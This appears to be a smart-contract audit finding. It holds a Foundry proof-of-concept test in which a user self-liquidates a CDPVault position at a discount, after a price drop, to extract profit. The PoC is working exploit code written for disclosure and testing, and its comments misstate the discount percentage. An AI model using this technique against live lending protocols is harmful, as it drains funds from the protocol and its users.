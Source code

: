 Note: The value of the discount and penalty were chosen by observing the values currently set in `scripts/config.js`, they were not chosen arbitrarily.

Add the following to `test/unit/CDPVault.t.sol` and run `forge test --mt testSelfLiquidateProfit -vv`

```javascript
  function testSelfLiquidateProfit() public {
      mockWETH.mint(address(this), 20e18);

      // discount = 0.98 ether (0.02% discount)
      // penalty = 0.99 ether (0.01% penalty)
      CDPVault vault = createCDPVault(token, 150 ether, 0, 1.25 ether, 0.99 ether, 0.98 ether);
      createGaugeAndSetGauge(address(vault));

      // create position
      uint256 wethBefore = mockWETH.balanceOf(address(this));
      _modifyCollateralAndDebt(vault, 100 ether, 80 ether);
      uint256 wethBorrowed = mockWETH.balanceOf(address(this)) - wethBefore;
      uint256 collateralDeposited = 100 ether;
      console.log("weth borrowed: ", wethBorrowed);
      console.log("collateral deposited: ", collateralDeposited);

      address position = address(this);
      uint256 amountUserMustRepay = vault.virtualDebt(position);
      console.log("Amount of debt user must repay: ", amountUserMustRepay);

      // any attempt to liquidate now will revert because position is safe
      vm.expectRevert(bytes4(keccak256("CDPVault__liquidatePosition_notUnsafe()")));
      vault.liquidatePosition(position, 1 ether);

      // user waits some time for price to change so position becomes unsafe (but no bad debt yet)
      // in reality, interest will accrue, however to make this PoC simple we will update spot price (which is another way user can take advantage)
      _updateSpot(0.80 ether);
      (uint256 collateral, uint256 debt , , , , ) = vault.positions(position);

      // calculate amount to repay to fully liquidate position.
      uint256 spotAmt = oracle.spot(address(token));
      uint256 discountPercent = 0.98 ether;
      uint256 discountAmount = wmul(spotAmt, discountPercent);
      uint256 repayFull = wmul(collateral, discountAmount);
      console.log("Amount user is repaying: ", repayFull);
      mockWETH.approve(address(vault), repayFull);

      // fully liquidate position
      wethBefore = mockWETH.balanceOf(address(this));
      uint collateralBefore = token.balanceOf(address(this));
      vault.liquidatePosition(position, repayFull);
      uint256 wethSpent = wethBefore - mockWETH.balanceOf(address(this));
      uint256 collateralReceived = token.balanceOf(address(this)) - collateralBefore;
      console.log("weth spent: ", wethSpent);
      console.log("collateral received: ", collateralReceived);

      console.log("Total WETH earned: ", wethBorrowed - wethSpent);
      console.log("collateral lost: ", collateralDeposited -  collateralReceived);

      // confirm that collateral in position is 0
      (collateral, debt, , , , ) = vault.positions(position);
      console.log("collateral remaining in position: ", collateral);
  }
```
